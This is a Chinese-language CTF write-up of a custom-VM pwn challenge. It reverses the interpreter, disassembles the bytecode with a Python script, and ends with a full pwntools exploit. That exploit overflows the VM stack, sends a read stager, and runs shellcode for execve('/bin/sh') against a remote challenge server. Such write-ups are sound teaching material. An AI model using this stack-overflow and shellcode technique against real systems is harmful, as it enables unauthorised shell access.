


<!--more-->




## TL;DR

这是一道很有意思（很折磨人）的VM Pwn，不过好久没做Pwn了这么做一做确实很爽。


## 程序流程

读入出题人自定义的程序然后执行

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int fd; // [rsp+Ch] [rbp-14h]
  char *buf; // [rsp+10h] [rbp-10h]
  vm *s; // [rsp+18h] [rbp-8h]

  init();
  s = (vm *)malloc(0x30uLL);
  memset(s, 0, sizeof(vm));
  buf = (char *)mmap(0LL, 0x30000uLL, 7, 34, -1, 0LL);
  s->buffer_ptr = (unsigned __int64)buf;
  fd = open("./vmcode", 0);
  read(fd, &s->ip, 4uLL);
  while ( (unsigned int)read(fd, buf, 0x400uLL) )
    buf += 0x400;
  s->opcode_len = 0x30000;
  vmrun(s);
}
```

```bash
ldz@ldz-OMEN-by-HP-Gaming-Laptop-16-wf0xxx:~/Downloads/mvmp/tempdir/PWN附件/change$ xxd vmcode
00000000: 0000 0000 9000 0008 8d00 4700 5768 6174  ..........G.What
00000010: 2b00 0400 0000 4700 2773 2079 2b00 0400  +.....G.'s y+...
00000020: 0000 4700 6f75 7220 2b00 0400 0000 4700  ..G.our +.....G.
00000030: 6e61 6d65 2b00 0400 0000 4300 3f0a 0000  name+.....C.?...
00000040: 8d00 7d00 c000 0166 0e02 008d 010f 0001  ..}....f........
00000050: 0000 007d 027d 017d 00c0 0000 8bc0 0000  ...}.}.}........
00000060: 0cc0 0000 4c94 0000 08ec 0000 0090 0000  ....L...........
00000070: 068d 000f 0100 0000 000f 0218 0000 007d  ...............}
00000080: 027d 017d 00c0 0000 888d 010f 0000 0000  .}.}............
00000090: 000f 0250 0000 007d 027d 017d 00c0 0000  ...P...}.}.}....
000000a0: 1e8d 017d 01c0 0000 a194 0000 06ec 0000  ...}............
000000b0: 000f 0000 0000 00cc 0000 3cec 0000 007d  ..........<....}
000000c0: 058d 052b 0508 0000 003a 0005 2b05 0400  ...+.....:..+...
000000d0: 0000 3a01 052b 0504 0000 003a 0205 d400  ..:..+.....:....
000000e0: 0000 8105 ec00 0003 7d05 8d05 2b05 0800  ........}...+...
000000f0: 0000 3a00 052b 0504 0000 003a 0105 2b05  ..:..+.....:..+.
00000100: 0400 0000 3a02 05d4 0000 0181 05ec 0000  ....:...........
00000110: 037d 058d 052b 0508 0000 003a 0005 2b05  .}...+.....:..+.
00000120: 0400 0000 3a01 052b 0504 0000 003a 0205  ....:..+.....:..
00000130: 0f03 0000 0000 3e00 0185 0085 0306 0302  ......>.........
00000140: b080 000e 8105 ec00 0003 7d05 8d05 2b05  ..........}...+.
00000150: 0800 0000 9000 0003 8d01 0e00 0147 0068  .............G.h
00000160: 656c 6c2b 0004 0000 0043 006f 2000 000f  ell+.....C.o ...
00000170: 0001 0000 000f 0206 0000 007d 027d 017d  ...........}.}.}
00000180: 00c0 8000 9d3a 0105 7d01 c000 0020 0e02  .....:..}.... ..
00000190: 003a 0105 0f00 0100 0000 7d02 7d01 7d00  .:........}.}.}.
000001a0: c080 00bc 9400 0003 8105 ec00 0001 7d05  ..............}.
000001b0: 8d05 2b05 0800 0000 3a01 050e 0001 3202  ..+.....:.....2.
000001c0: 0007 0200 0000 00a8 0000 0685 00a4 8000  ................
000001d0: 132e 0001 8105 ec00 0001                 ..........
```

程序主解析函数

```c
void __fastcall __noreturn vmrun(vm *a1)
{
  int v1; // eax
  _BYTE *s; // [rsp+18h] [rbp-8h]

  s = malloc(0xCuLL);
  memset(s, 0, 8uLL);
  do
  {
    if ( (unsigned int)vm_fetch_and_decode((__int64 *)a1, s) == -1 )
      break;
    v1 = *s & 3;
    if ( v1 == 3 )
    {
      reg_imm(a1, (__int64)s);
    }
    else if ( (*s & 3u) <= 3 )
    {
      if ( v1 == 2 )
      {
        reg_reg(a1, (__int64)s);
      }
      else if ( (*s & 3) != 0 )
      {
        reg(a1, s);
      }
      else
      {
        vuln(a1, s);
      }
    }
    memset(s, 0, 0xCuLL);
    if ( a1->opcode_len > 0x30000 )
      break;
  }
  while ( a1->ip <= 0x30000 );
  puts("Segment error");
  _exit(0);
}
```

### 解释器逆向

我们很容易就能得出

```
00000000 struct vm // sizeof=0x30
00000000 {                                       // XREF: LOAD:00000000000006A0/r
00000000                                         // LOAD:00000000000006E8/r ...
00000000     unsigned __int64 buffer_ptr;
00000008     unsigned __int32 ip;
0000000C     unsigned __int32 padding1;
00000010     unsigned __int32 padding2;
00000014     unsigned __int32 padding3;
00000018     unsigned __int32 padding4;
0000001C     unsigned __int32 padding5;
00000020     unsigned __int32 padding6;
00000024     unsigned __int32 opcode_len;
00000028     unsigned __int32 padding8;
0000002C     // padding byte
0000002D     // padding byte
0000002E     // padding byte
0000002F     // padding byte
00000030 };

00000000 struct $10AF91F549049757C80DE4718B6BE9BB // sizeof=0xC
00000000 {
00000000     uint8_t raw_op;   
00000001     uint8_t opcode; 
00000002     uint8_t _unused[2]; 
00000004     uint32_t operand1;
00000008     uint32_t operand2;
0000000C };
```

### 程序逆向

我们不妨让AI写出逆向脚本

```python
import struct
import os
import sys

VM_FILENAME = "vmcode" 

# Type 3: [Op] [Reg] [Imm4]
# handler: reg_imm
OP_IMM = {
    1: "CMP",   # Compare Reg, Imm
    2: "CMPS",  # Compare Signed
    3: "MOV",   # Reg = Imm
    4: "XOR",
    5: "OR",
    6: "AND",
    7: "SHL",
    8: "SHR",
    10: "ADD",
    11: "SUB",
    12: "LDB",  # Load Byte (Reg = *[Imm]) - Note: Logic in C implies Base+Offset usually, checking logic...
                # Case 12: *(&reg) = *(buf + imm). Direct memory load from absolute offset.
    13: "LDW",  # Load Word
    14: "LDD",  # Load Dword
    15: "STB",  # Store Byte ( *[Reg] = Imm_byte )
    16: "STW",  # Store Word
    17: "STD",  # Store Dword (*[Reg] = Imm_ptr) - Note: Writes pointer to stack/mem
}

# Type 2: [Op] [Reg1] [Reg2]
# handler: reg_reg
OP_REG_REG = {
    1: "CMP",
    2: "CMPS",
    3: "MOV",   # R1 = R2
    4: "XOR",
    5: "OR",
    6: "AND",
    7: "SHL",
    8: "SHR",
    9: "XCHG",  # Exchange
    10: "ADD",
    11: "SUB",
    12: "LDB",  # R1 = *[Base + R2]
    13: "LDW",
    14: "LDD",
    15: "STB",  # *[Base + R2] = R1_byte
    16: "STW",
    17: "STD",
}

# Type 1: [Op] [Reg]
# handler: reg
OP_REG = {
    31: "PUSH", # PUSH Reg
    32: "POP",  # POP Reg
    33: "INC",
    34: "DEC",
    35: "MOV_SP", # Reg = SP
    41: "JMP",    # Indirect Jump (IP = Reg)
    42: "JE",     # Jump if Equal (Reg contain addr? No, logic reuse) - Wait, code check needed
    43: "JG",     # Jump Greater
    44: "JL",     # Jump Less
    45: "JGE",    # Jump Greater Equal
    46: "JLE",    # Jump Less Equal
    47: "JNE",    # Jump Not Equal
    48: "CALL",   # Call Reg
}

# Type 0: [Op] [Imm24 (Big Endian)]
# handler: vuln
OP_SYS = {
    36: "SUB_SP", # SP -= Imm*4
    37: "ADD_SP", # SP += Imm*4
    41: "JMP",    # Relative Jump
    42: "JE",     # Relative JE
    43: "JG",     # Relative JG
    44: "JL",     # Relative JL
    45: "JGE",    # Relative JGE
    46: "JLE",    # Relative JLE
    47: "JNE",    # Relative JNE
    48: "CALL",   # Relative Call
    51: "SYS_OPEN",  # Speculation based on common syscall args
    52: "SYS_READ",
    53: "SYS_WRITE",
    54: "SYSCALL_4",
    55: "SYSCALL_5",
    56: "SYSCALL_6",
    57: "SYSCALL_7",
    58: "SYSCALL_8",
    59: "RET",
}

def decode_vm(code_buffer, entry_point):
    pc = entry_point
    max_len = len(code_buffer)
    
    print(f"[*] Analyzing VM Code. Size: {max_len:#x}, Entry Point: {pc:#x}")
    print("-" * 60)
    print(f"{'Address':<10} | {'Bytes':<20} | {'Disassembly'}")
    print("-" * 60)

    # Simple Linear Sweep Disassembly
    # Note: If there is data mixed with code, this might desync. 
    # But for a basic VM, linear usually works until a RET/JMP to backwards.
    
    while pc < max_len:
        start_pc = pc
        if pc >= len(code_buffer):
            break
            
        raw_op = code_buffer[pc]
        op_type = raw_op & 3
        opcode = raw_op >> 2
        
        instr_bytes = []
        mnem = ""
        operands = ""

        try:
            if op_type == 3: # REG_IMM
                # Fetch: 1 byte reg, 4 bytes imm (little endian)
                reg = code_buffer[pc+1]
                imm_bytes = code_buffer[pc+2 : pc+6]
                imm = struct.unpack("<I", imm_bytes)[0]
                
                pc += 6
                instr_bytes = code_buffer[start_pc:pc]
                
                mnem = OP_IMM.get(opcode, f"UNK_IMM_{opcode}")
                operands = f"R{reg}, 0x{imm:x}"
                
            elif op_type == 2: # REG_REG
                # Fetch: 1 byte reg1, 1 byte reg2
                r1 = code_buffer[pc+1]
                r2 = code_buffer[pc+2]
                
                pc += 3
                instr_bytes = code_buffer[start_pc:pc]
                
                mnem = OP_REG_REG.get(opcode, f"UNK_RR_{opcode}")
                operands = f"R{r1}, R{r2}"
                
            elif op_type == 1: # REG (Single)
                # Fetch: 1 byte reg
                r1 = code_buffer[pc+1]
                
                pc += 2
                instr_bytes = code_buffer[start_pc:pc]
                
                mnem = OP_REG.get(opcode, f"UNK_R_{opcode}")
                operands = f"R{r1}"
                
            elif op_type == 0: # VULN (Syscall/Jumps/Imm24)
                # Fetch: 3 bytes imm (Big Endian logic in C: operand << 8 | byte)
                b1 = code_buffer[pc+1]
                b2 = code_buffer[pc+2]
                b3 = code_buffer[pc+3]
                imm = (b1 << 16) | (b2 << 8) | b3
                
                # Handle relative logic for Jumps (0x29 -> 0x30 in C switch, which is 41-48 opcode)
                # C logic: if (operand & 0x800000) target = ip - (op & 0x7FFFFF) else ip + ...
                is_rel_jump = (41 <= opcode <= 48)
                target_str = f"0x{imm:x}"
                
                if is_rel_jump:
                    offset = imm & 0x7FFFFF
                    if imm & 0x800000:
                        target = start_pc - offset # roughly current IP check
                    else:
                        target = start_pc + offset
                    target_str = f"LOC_{target:05x} (Rel)"

                pc += 4
                instr_bytes = code_buffer[start_pc:pc]
                
                mnem = OP_SYS.get(opcode, f"UNK_SYS_{opcode}")
                operands = target_str

            # Print formatted
            byte_str = " ".join([f"{b:02x}" for b in instr_bytes])
            print(f"{start_pc:05x}      | {byte_str:<20} | {mnem:<8} {operands}")

        except IndexError:
            print(f"{start_pc:05x}      | EOF mid-instruction")
            break

def main():
    if not os.path.exists(VM_FILENAME):
        print(f"Error: File '{VM_FILENAME}' not found.")
        return

    with open(VM_FILENAME, "rb") as f:
        # main() in C: read(fd, &s->ip, 4uLL);
        entry_data = f.read(4)
        if len(entry_data) < 4:
            print("Error: File too small.")
            return
        
        entry_point = struct.unpack("<I", entry_data)[0]
        
        # main() in C: while ( read(fd, buf, ...) )
        code_data = f.read()
        
    # The IP in C is relative to the buffer start.
    # The file contains [IP: 4bytes] [CODE: N bytes]
    # We pass the code buffer and the IP read from header.
    decode_vm(code_data, entry_point)

if __name__ == "__main__":
    main()
```

最后得到执行流程

```
[*] Analyzing VM Code. Size: 0x1d6, Entry Point: 0x0
------------------------------------------------------------
Address    | Bytes                | Disassembly
------------------------------------------------------------
00000      | 90 00 00 08          | SUB_SP   0x8
00004      | 8d 00                | MOV_SP   R0
00006      | 47 00 57 68 61 74    | STD      R0, 0x74616857
0000c      | 2b 00 04 00 00 00    | ADD      R0, 0x4
00012      | 47 00 27 73 20 79    | STD      R0, 0x79207327
00018      | 2b 00 04 00 00 00    | ADD      R0, 0x4
0001e      | 47 00 6f 75 72 20    | STD      R0, 0x2072756f
00024      | 2b 00 04 00 00 00    | ADD      R0, 0x4
0002a      | 47 00 6e 61 6d 65    | STD      R0, 0x656d616e
00030      | 2b 00 04 00 00 00    | ADD      R0, 0x4
00036      | 43 00 3f 0a 00 00    | STW      R0, 0xa3f
0003c      | 8d 00                | MOV_SP   R0
0003e      | 7d 00                | PUSH     R0
00040      | c0 00 01 66          | CALL     LOC_001a6 (Rel)
00044      | 0e 02 00             | MOV      R2, R0
00047      | 8d 01                | MOV_SP   R1
00049      | 0f 00 01 00 00 00    | MOV      R0, 0x1
0004f      | 7d 02                | PUSH     R2
00051      | 7d 01                | PUSH     R1
00053      | 7d 00                | PUSH     R0
00055      | c0 00 00 8b          | CALL     LOC_000e0 (Rel)
00059      | c0 00 00 0c          | CALL     LOC_00065 (Rel)
0005d      | c0 00 00 4c          | CALL     LOC_000a9 (Rel)
00061      | 94 00 00 08          | ADD_SP   0x8
00065      | ec 00 00 00          | RET      0x0
00069      | 90 00 00 06          | SUB_SP   0x6
0006d      | 8d 00                | MOV_SP   R0
0006f      | 0f 01 00 00 00 00    | MOV      R1, 0x0
00075      | 0f 02 18 00 00 00    | MOV      R2, 0x18
0007b      | 7d 02                | PUSH     R2
0007d      | 7d 01                | PUSH     R1
0007f      | 7d 00                | PUSH     R0
00081      | c0 00 00 88          | CALL     LOC_00109 (Rel)
00085      | 8d 01                | MOV_SP   R1
00087      | 0f 00 00 00 00 00    | MOV      R0, 0x0
0008d      | 0f 02 50 00 00 00    | MOV      R2, 0x50
00093      | 7d 02                | PUSH     R2
00095      | 7d 01                | PUSH     R1
00097      | 7d 00                | PUSH     R0
00099      | c0 00 00 1e          | CALL     LOC_000b7 (Rel)
0009d      | 8d 01                | MOV_SP   R1
0009f      | 7d 01                | PUSH     R1
000a1      | c0 00 00 a1          | CALL     LOC_00142 (Rel)
000a5      | 94 00 00 06          | ADD_SP   0x6
000a9      | ec 00 00 00          | RET      0x0
000ad      | 0f 00 00 00 00 00    | MOV      R0, 0x0
000b3      | cc 00 00 3c          | SYS_OPEN 0x3c
000b7      | ec 00 00 00          | RET      0x0
000bb      | 7d 05                | PUSH     R5
000bd      | 8d 05                | MOV_SP   R5
000bf      | 2b 05 08 00 00 00    | ADD      R5, 0x8
000c5      | 3a 00 05             | LDD      R0, R5
000c8      | 2b 05 04 00 00 00    | ADD      R5, 0x4
000ce      | 3a 01 05             | LDD      R1, R5
000d1      | 2b 05 04 00 00 00    | ADD      R5, 0x4
000d7      | 3a 02 05             | LDD      R2, R5
000da      | d4 00 00 00          | SYS_WRITE 0x0
000de      | 81 05                | POP      R5
000e0      | ec 00 00 03          | RET      0x3
000e4      | 7d 05                | PUSH     R5
000e6      | 8d 05                | MOV_SP   R5
000e8      | 2b 05 08 00 00 00    | ADD      R5, 0x8
000ee      | 3a 00 05             | LDD      R0, R5
000f1      | 2b 05 04 00 00 00    | ADD      R5, 0x4
000f7      | 3a 01 05             | LDD      R1, R5
000fa      | 2b 05 04 00 00 00    | ADD      R5, 0x4
00100      | 3a 02 05             | LDD      R2, R5
00103      | d4 00 00 01          | SYS_WRITE 0x1
00107      | 81 05                | POP      R5
00109      | ec 00 00 03          | RET      0x3
0010d      | 7d 05                | PUSH     R5
0010f      | 8d 05                | MOV_SP   R5
00111      | 2b 05 08 00 00 00    | ADD      R5, 0x8
00117      | 3a 00 05             | LDD      R0, R5
0011a      | 2b 05 04 00 00 00    | ADD      R5, 0x4
00120      | 3a 01 05             | LDD      R1, R5
00123      | 2b 05 04 00 00 00    | ADD      R5, 0x4
00129      | 3a 02 05             | LDD      R2, R5
0012c      | 0f 03 00 00 00 00    | MOV      R3, 0x0
00132      | 3e 00 01             | STB      R0, R1
00135      | 85 00                | INC      R0
00137      | 85 03                | INC      R3
00139      | 06 03 02             | CMP      R3, R2
0013c      | b0 80 00 0e          | JL       LOC_0012e (Rel)
00140      | 81 05                | POP      R5
00142      | ec 00 00 03          | RET      0x3
00146      | 7d 05                | PUSH     R5
00148      | 8d 05                | MOV_SP   R5
0014a      | 2b 05 08 00 00 00    | ADD      R5, 0x8
00150      | 90 00 00 03          | SUB_SP   0x3
00154      | 8d 01                | MOV_SP   R1
00156      | 0e 00 01             | MOV      R0, R1
00159      | 47 00 68 65 6c 6c    | STD      R0, 0x6c6c6568
0015f      | 2b 00 04 00 00 00    | ADD      R0, 0x4
00165      | 43 00 6f 20 00 00    | STW      R0, 0x206f
0016b      | 0f 00 01 00 00 00    | MOV      R0, 0x1
00171      | 0f 02 06 00 00 00    | MOV      R2, 0x6
00177      | 7d 02                | PUSH     R2
00179      | 7d 01                | PUSH     R1
0017b      | 7d 00                | PUSH     R0
0017d      | c0 80 00 9d          | CALL     LOC_000e0 (Rel)
00181      | 3a 01 05             | LDD      R1, R5
00184      | 7d 01                | PUSH     R1
00186      | c0 00 00 20          | CALL     LOC_001a6 (Rel)
0018a      | 0e 02 00             | MOV      R2, R0
0018d      | 3a 01 05             | LDD      R1, R5
00190      | 0f 00 01 00 00 00    | MOV      R0, 0x1
00196      | 7d 02                | PUSH     R2
00198      | 7d 01                | PUSH     R1
0019a      | 7d 00                | PUSH     R0
0019c      | c0 80 00 bc          | CALL     LOC_000e0 (Rel)
001a0      | 94 00 00 03          | ADD_SP   0x3
001a4      | 81 05                | POP      R5
001a6      | ec 00 00 01          | RET      0x1
001aa      | 7d 05                | PUSH     R5
001ac      | 8d 05                | MOV_SP   R5
001ae      | 2b 05 08 00 00 00    | ADD      R5, 0x8
001b4      | 3a 01 05             | LDD      R1, R5
001b7      | 0e 00 01             | MOV      R0, R1
001ba      | 32 02 00             | LDB      R2, R0
001bd      | 07 02 00 00 00 00    | CMP      R2, 0x0
001c3      | a8 00 00 06          | JE       LOC_001c9 (Rel)
001c7      | 85 00                | INC      R0
001c9      | a4 80 00 13          | JMP      LOC_001b6 (Rel)
001cd      | 2e 00 01             | SUB      R0, R1
001d0      | 81 05                | POP      R5
001d2      | ec 00 00 01          | RET      0x1
```

------

## 漏洞与利用

我们可以很容易的看到程序存在一个栈溢出漏洞，但是如何利用呢，我们不妨看看这个解释器是如何解释程序栈的

```
case 59:
      a1->ip = *(_DWORD *)(a1->buffer_ptr + a1->opcode_len);
      result = (__int64)a1;
      a1->opcode_len += 4 * (a2->operand1 + 1);
      break;
```

也就是说，我们可以通过溢出的方式把对应地址的ip修改为我们shellcode的地址即可，但是可怕的事情发生了

```

# "nib/" = 0x6e69622f

shellcode += encode_mov(0, 0)  
shellcode += encode_std(0, 0x6e69622f) 

# "hs//" = 0x68732f2f (Padding with / to make 4 bytes, or just /sh\0)
# "/sh\0" = 0x0068732f

shellcode += encode_mov(0, 4)             # R0 = 4
shellcode += encode_std(0, 0x0068732f)

syscall(59, base + R0, R1, R2)

shellcode += encode_mov(1, 0)    
shellcode += encode_mov(0, 0)             # R1 = 0 (argv)
shellcode += encode_mov(2, 0)             # R2 = 0 (envp)

shellcode += encode_sys_execve_ptr(59)
log.info(f"Shellcode length: {len(shellcode)} bytes")
log.info(f"Shellcode hex: {shellcode.hex()}")
```

经过调试，我们发生溢出的位置`0x2ffe0`写入shellcode后ip会跳出`0x30000`从而引起报措，

```c
	memset(s, 0, 0xCuLL);
    if ( a1->opcode_len > 0x30000 )
      break;
```

因此选择先构造一次`read`再`execve("/bin/sh",0,0)`

## 如何调试？

我想，这个才是最重要的，对于**溢出的控制**我们可以断在`loc_1A64`

```
b *$rebase(0x1a64)
a1->ip = *(_DWORD *)(a1->buffer_ptr + a1->opcode_len);
```

对于syscall的调试

```
b *$rebase(0x149d)
```

## 最终版

```python
from pwn import *
import struct

context.log_level = 'debug'
context.arch = 'amd64'

def gen_int_bytes(val):
    return p32(val)

def encode_mov(reg, val):
    # Opcode 3 (MOV Imm): 6 bytes
    return b'\x0f' + p8(reg) + gen_int_bytes(val)

def encode_std(reg, val):
    # Opcode 17 (STD): 6 bytes
    return b'\x47' + p8(reg) + gen_int_bytes(val)

def encode_add(reg, val):
    # Opcode 10 (ADD): 6 bytes
    return b'\x2b' + p8(reg) + gen_int_bytes(val)

def encode_sys_ptr(syscall_num, opcode):
    # Syscall Wrapper: 4 bytes
    b = p32(syscall_num, endian='big')
    # Opcode << 2 | 0 (Type 0)
    op_byte = (opcode << 2)
    print((op_byte>>2)-36)
    return p8(op_byte) + b[1:]

def encode_jmp_reg(reg):
    return b'\xa5' + p8(reg)


stager = b""

stager += encode_mov(0, 0)

stager += encode_mov(1, 0)

stager += encode_mov(2, 0x100)

# Syscall Read (Opcode 53)
stager += encode_sys_ptr(0, 53)

# Jump to R1 (0)
stager += encode_jmp_reg(1)

log.info(f"Stager Length: {len(stager)} bytes (Max 32)")

real_sc = b""

real_sc += encode_mov(0, 0)
real_sc += encode_mov(1, 0)
real_sc += encode_mov(2, 0)

real_sc += encode_std(0, 0x6e69622f)
real_sc += encode_add(0, 4)
real_sc += encode_std(0, 0x0068732f)

real_sc += encode_mov(0, 0)
real_sc += encode_sys_ptr(59, 52) 


p = remote('node5.buuoj.cn', 25189)

target_addr = 0x2FFE0
padding = b'A' * 24
payload_1 = padding + p32(target_addr) + stager
print(hex(len(stager)+0x2ffe0))
p.recvuntil(b"name?\n")
#gdb.attach(p,"b *$rebase(0x149d)")
p.send(payload_1)
log.success("Stage 1 (Stager) Sent!")

import time
p.recvuntil("hello")
time.sleep(1)
p.send(real_sc+b'\x00'*0x30)
log.success("Stage 2 (Shellcode) Sent!")

p.interactive()
```


